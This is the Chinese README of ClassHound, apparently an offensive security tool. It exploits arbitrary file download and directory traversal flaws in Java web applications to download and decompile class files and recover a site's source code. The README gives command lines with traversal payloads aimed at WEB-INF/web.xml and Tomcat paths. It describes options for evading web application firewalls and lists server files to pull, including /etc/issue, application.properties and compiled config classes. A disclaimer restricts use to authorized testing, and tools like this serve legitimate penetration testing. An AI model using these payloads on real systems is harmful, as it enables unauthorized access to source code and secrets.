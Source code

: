 # ClassHound
**利用任意文件下载漏洞自动循环下载并反编译class文件获得网站源码**

![Version](https://img.shields.io/badge/version-1.1-green.svg) ![License](https://img.shields.io/badge/license-MIT-red.svg) [![Python 2.7&3.4](https://img.shields.io/badge/python-2.7&3.4-orange.svg)](https://www.python.org/)  



### 注意事项

```
1. 使用过程中的 bug 和优化建议欢迎提 issue
2. 程序运行请先安装 requirements.txt 中的 python 模块, 并配置好 java 环境变量
3. 程序仅作为安全研究和授权测试使用, 开发人员对因误用和滥用该程序造成的一切损害概不负责
```



### 下载安装

```bash
git clone --depth=1 --branch=master https://www.github.com/LandGrey/ClassHound.git
cd ClassHound/
sudo pip install requirements.txt
sudo chmod +x classhound.py
python classhound.py -h
```



### 使用效果

![GIF.gif](https://raw.githubusercontent.com/LandGrey/ClassHound/master/resource/GIF.gif)



### 使用方法

### 0x00: 指定目标链接

#### 参数：-u/--url

指定可 **正常下载文件** 的链接, 并默认使用 `#` 字符标记任意文件下载漏洞的文件位置

```html
例如可正常下载 1.png 文件的链接如下：http://127.0.0.1/download.jsp?path=images/1.png
任意文件下载漏洞载荷位置正好在 1.png，可以使用命令：
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#"

或者使用链接 http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml 可正常下载文件时,
也可使用命令: 
python classhound.py -u "http://127.0.0.1/download.jsp?path=#../../../WEB-INF/web.xml#"
```



### *0x01:* 指定下载失败关键词

#### 参数：-k/--keyword

指定**下载失败时**页面会出现的关键字，可用来辅助程序判断是否下载成功

```html
如 -k "404 not found" ，不清楚或不固定时，可以不指定
```



### *0x02:* 指定POST请求数据

#### 参数：-p/--post

使用 POST 请求下载文件

```
python classhound.py -u "http://127.0.0.1/download.jsp" --post "path=images/#1.png#"
```



### *0x03:* 指定文件遍历字符

#### 参数：-tc/--travel-char  (推荐使用)

直接指定**文件遍历字符**，默认是 `../`

```
当

1. 已知文件遍历字符
2. 需要通过更改文件遍历字符绕过 WAF
3. 程序没有自动探测出来特殊的遍历字符时

推荐显示使用该选项，会减少不必要的探测请求，程序不容易出错
```



### *0x04:* 指定遍历字符数量

#### 参数：-cc/--char-count  (推荐使用)

直接指定下载 `WEB-INF/web.xml` 文件时的**遍历字符数量**



```
程序没有自动探测出来遍历字符数量时，可以单独指定

例如，可使用 http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml 下载 WEB-INF/web.xml 文件时，此时的遍历字符数量为 3 个

可使用命令：
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#" -tc "../" -cc 3
```



### *0x05:* 指定父路径

#### 参数：-bp/--base-path

指定 `WEB-INF/web.xml` 的父路径



```
例如当因目录原因，直接跳目录用 ../../../WEB-INF/web.xml 并不能下载 WEB-INF/web.xml 文件，需要用 ../../../../../../../opt/tomcat/webapps/cms/WEB-INF/web.xml 才可以下载成功时：

可以用 
-bp opt/tomcat/webapps/cms/  (注意参数值前面无 /，后面有 /)
指定需要拼接的父路径，同时用 -tc ../ 指定文件遍历字符，用 -cc 7 指定需要 7 个遍历字符
```



### 其他参数

```markdown
## -s
设置两次HTTP请求间的 sleep time，暂停N秒，防止请求过于频繁被 waf 拦截

## -f
如果想顺带下载些其他已知文件, 可将服务器文件的相对路径一行一个写入文件中, 然后用 -f 参数指定文件
相对路径的文件下载可能需要不一样数量的遍历字符, 可以同时启用 -a/--auto 参数，程序会尝试不同数量的遍历字符
例如创建文件 download.txt，内容如下:
/etc/issue
install/index.jsp
application.properties
ROOT/META-INF/MANIFEST.MF
WEB-INF/classes/me/landgrey/config/config.class

## -a
自动切换遍历字符数量，常和 -f 参数一起使用

## -dc
设置标记漏洞的分隔符，默认为 #

## -mc
设置自动探测时尝试的最大遍历字符数量, 默认 8

## -hh
设置请求时的额外 HTTP header

## -hp
设置 HTTP/HTTPS 代理
```



### 程序修改

极少数情况下，下载的文件可能会被二次处理，比如`在文件头部或尾部添加额外字符`、`文件被编码`等。

此时，可以修改程序中的 `save_file` 函数，在文件在保存到本地前，对文件做额外处理，还原成正常的 `xml` 或 `class` 文件。



### 依赖开源程序

反编译工具 [https://github.com/leibnitz27/cfr](https://github.com/leibnitz27/cfr)
